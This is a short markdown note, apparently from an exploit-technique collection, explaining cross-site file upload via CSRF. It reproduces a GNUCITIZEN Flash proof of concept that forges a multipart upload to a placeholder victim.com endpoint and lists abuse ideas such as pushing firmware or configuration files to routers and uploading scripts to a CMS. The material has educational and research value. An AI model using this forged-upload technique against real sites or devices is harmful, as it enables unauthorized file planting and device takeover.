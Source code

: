 # Exploit Chaining

## Cross-Site File Upload

TODO: Find an existing vulnerability related to **Cross-Site File Upload** since this is pretty much old.

The reason CSRF attacks against file uploads are not possible is because the HTML FORM specifications are not versatile enough to define sub-fields like `filename="whatever.txt"`, which are vital parts of the `multipart/form-data` specifications when submitting files. This is the only restriction and I will show you that attackers can easily overcome it with a bit of help from Flash.

```
<mx:Application xmlns:mx="http://www.adobe.com/2006/mxml" creationComplete="onAppInit()">
  <mx:Script>
    /* by Petko D. Petkov; pdp
    * GNUCITIZEN
    **/
    import flash.net.*;

    private function onAppInit():void
    {
      var r:URLRequest = new URLRequest('http://victim.com/upload.php');

      r.method = 'POST';
      r.data = unescape('-----------------------------109092118919201%0D%0AContent-Disposition%3A form-data%3B name%3D%22file%22%3B filename%3D%22gc.txt%22%0D%0AContent-Type%3A text%2Fplain%0D%0A%0D%0AHi from GNUCITIZEN%21%0D%0A-----------------------------109092118919201%0D%0AContent-Disposition%3A form-data%3B name%3D%22submit%22%0D%0A%0D%0ASubmit Query%0D%0A-----------------------------109092118919201--%0A');
      r.contentType = 'multipart/form-data; boundary=---------------------------109092118919201';

      navigateToURL(r, '_self');
    }
  </mx:Script>
</mx:Application>
```

If you carefully read the content of the script you will notice that we are preparing an URLRequest object which we load with a POST method, a `contentType` which equals to `multipart/form-data` and a URL encoded data text. If we `unencode` the text we get the following result. Now let's have a look at it as well. Notice the `filename="gc.txt"` field:

```
-----------------------------109092118919201
Content-Disposition: form-data; name="file"; filename="gc.txt"
Content-Type: text/plain

Hi from GNUCITIZEN!
-----------------------------109092118919201
Content-Disposition: form-data; name="submit"

Submit Query
-----------------------------109092118919201--
```

This looks like a valid `multipart/form-data` file upload, doesn't it? If you compile and execute the code you will see that the file upload is completely valid and will upload a file called `gc.txt` with content of `Hi from GNUCITIZEN!`.

- Upload a nasty picture on someone's profile - I admit this is not very useful but still very funny and open for abuse.
- Upload a shiny new firmware to the router that is under attack by using the user as a proxy. This is pretty nasty and given the fact that there are numerous authentication bypass and A-to-C bugs floating around, it is very, very feasible.
- Upload a shiny new configuration file on the router that is under attack. Same as the one above - very feasible and easy to perform.
- Upload executable scripts on CMS - this of course is a bit more targeted.

---
## References

- [GNUCitizen: Hacking The Interwebs](http://www.gnucitizen.org/blog/hacking-the-interwebs/)

- [GNUCitizen: Flash UPnP Attack FAQ](http://www.gnucitizen.org/blog/flash-upnp-attack-faq/)